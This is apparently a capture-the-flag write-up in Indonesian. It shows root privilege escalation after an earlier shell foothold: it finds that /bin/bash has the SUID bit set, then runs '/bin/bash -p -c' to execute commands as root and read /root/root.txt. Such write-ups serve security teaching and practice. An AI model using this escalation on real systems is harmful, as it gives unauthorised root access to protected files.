





# Tanggal Rahasia ke Singgasana

Setelah dapat akses shell pada [Dalang di Balik Layar](../01-Web%20Exploitation/10-Dalang%20di%20Balik%20Layar.md)

Saat kita mengexplore isi sistem ada satu directory pada `/` yang hanya bisa dibuka oleh user root.

Jika coba buka directory tersebut, tidak akan muncul apa-apa.
```bash
ls /root
```

Disini kita fokuskan untuk dapat full akses terhadap sistemnya untuk bisa eksplor directory tersebut.
Untuk check user saat ini
```bash
whoami
```

Kita coba cek permission dari `/bin/bash`
```bash
ls -lh /bin/bash
```

Terlihat ada permission Set User ID (rws untuk owner (root)). Permission ini memungkinkan difile dijalankan dengan permission ownernya yaitu root, meskipun yang eksekusi user lain (normalnya kalo rwx, dia bakal execute pakai permission current user bukan owner).

Untuk mengeksploit SUID ini, kita gunakan bash dengan privileged mode untuk mendapat akses root (-p untuk privileged mode, -c untuk run command secara inline).
```bash
/bin/bash -p -c "whoami"
```

Berhasil mengeksekusi command sebagai root

Sekarang kita coba buka lagi directory /root dengan privileged bash
```bash
/bin/bash -p -c "ls /root"
```

Ada file txt disini :eyes:

Coba kita buka dengan command cat
```bash
/bin/bash -p -c "cat /root/root.txt"
```
